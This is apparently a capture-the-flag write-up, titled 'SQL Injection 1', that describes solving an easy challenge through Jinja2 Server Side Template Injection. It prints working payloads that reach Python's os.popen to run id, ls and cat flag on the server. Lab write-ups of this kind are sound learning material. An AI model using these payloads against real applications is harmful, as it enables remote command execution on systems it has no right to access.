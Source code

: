```yaml
---
title: "SQL Injection 1"
difficulty: "Easy"
date: 2025-10-27
---
```


## 🧠 What I Practiced/Learned/Discovered

- Learned about [Server Side Template Injection](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)

## 🔧 Tools used

**Programming language**

- `Python`
  - `popen`

**Linux shell**

- `ls`
- `cat`

# Steps

1. Searched about Server Side Template Injection
2. Found this article : https://onsecurity.io/article/server-side-template-injection-with-jinja2/
3. Tested the 1st example : `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
   1. `popen` is a command that let me run terminal commands : https://www.tutorialspoint.com/python/os_popen.htm
4. Tried replacing `id` in popen by `ls` to see if the command is run `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`
5. It worked and showed the list of files with a file called `flag`
6. Replaced `ls` by `cat flag` and got the flag !!
